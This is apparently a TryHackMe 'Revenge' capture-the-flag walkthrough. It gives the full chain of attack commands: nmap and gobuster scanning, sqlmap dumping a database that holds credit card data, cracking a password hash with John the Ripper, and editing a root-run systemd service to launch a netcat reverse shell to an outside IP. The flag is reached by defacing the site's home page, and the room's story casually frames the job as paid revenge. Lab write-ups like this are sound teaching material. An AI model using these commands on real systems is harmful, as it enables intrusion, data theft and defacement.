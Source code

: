 ```yaml
---
description: Walkthrough (Medium)
---
```


# Revenge 🟠🟠

<figure><img src="../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

This is revenge! You've been hired by Billy Joel to break into and deface the Rubber Ducky Inc. webpage. He was fired for probably good reasons but who cares, you're just here for the money. Can you fulfill your end of the bargain?

[https://tryhackme.com/r/room/revenge](https://tryhackme.com/r/room/revenge)

### Reconnaissance

```bash
nmap -T4 -sVC 10.10.234.54 -oN nmap
```

<figure><img src="../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

* Found ssh and http ports are open.

{% code overflow="wrap" %}
```bash
gobuster dir -u http://10.10.234.54/ -w /usr/share/wordlists/directory-list-2.3-medium.txt -x 'txt'
```
{% endcode %}

* Found interesting directory **/requirements.txt**

```html
attrs==19.3.0
bcrypt==3.1.7
cffi==1.14.1
click==7.1.2
Flask==1.1.2
Flask-Bcrypt==0.7.1
Flask-SQLAlchemy==2.4.4
itsdangerous==1.1.0
Jinja2==2.11.2
MarkupSafe==1.1.1
pycparser==2.20
PyMySQL==0.10.0
six==1.15.0
SQLAlchemy==1.3.18
Werkzeug==1.0.1
```

* Found that its running **SQL** and lets try out sqlmap on it.

### Sqlmap

```purebasic
sqlmap -u "http://10.10.234.54/products/1" --current-db 
```

```
[10:34:50] [INFO] fetching current database
current database: 'duckyinc'
```

* Found ' **duckyinc  ' database**

```bash
sqlmap -u "http://10.10.234.54/products/1" -D duckyinc --tables 
```

<figure><img src="../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

### Flag 1 >

```bash
sqlmap -u "http://10.10.234.54/products/1" -D duckyinc --dump
```

<figure><img src="../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

* Found 1st Flag in credit\_card column of mandrews username.

***

### Flag 2 >

<figure><img src="../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

* Found 3 users in system\_user table in the dump
* Copy the hash of server-admin and crack it using john The Ripper

```bash
john server.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

* Now got both username and password lets **SSH.**

```bash
ssh server-admin@10.10.234.54
```

<figure><img src="../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

* Found **flag2.txt**

***

### Flag 3 >

<figure><img src="../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

* User can run duckyinc.service and modify it so lets connect it to our machine ( Reverse Shell ).

```bash
sudoedit /etc/systemd/system/duckyinc.service
```

```bash
[Service]
User=root
Group=root
ExecStart= /bin/bash /tmp/shell.sh
```

* Change the user, Group to root and ExecStart like above, rest as it is
* Here we made the program to run by root, root is using /bin/bash to /tmp/shell.sh file
* In /tmp/shell.sh we need to put code for reverse shell.

```bash
vim /tmp/shell.sh
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.17.38.157 4444 >/tmp/f
```

* Change the IP address to your machine IP address and your desired port

```bash
nc -nvlp 4444
```

* Run this listener in your machine , new tab.

```bash
sudo /bin/systemctl daemon-reload
sudo /bin/systemctl restart duckyinc.service
```

* This will restart the service and  connects to our machine and we got root.
* Here the thing is until we corrupts the home page we dont get flag3.

```bash
vim /var/www/duckyinc/templates/index.html
```

* ' \<p> Hi There \</p> ' add any kind of html tag and save it.&#x20;
* in vim to save and exit -> press ( esc ) then type ( :wq ) then press ( enter ).

<figure><img src="../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>

* Found the Final flag. Submit it.
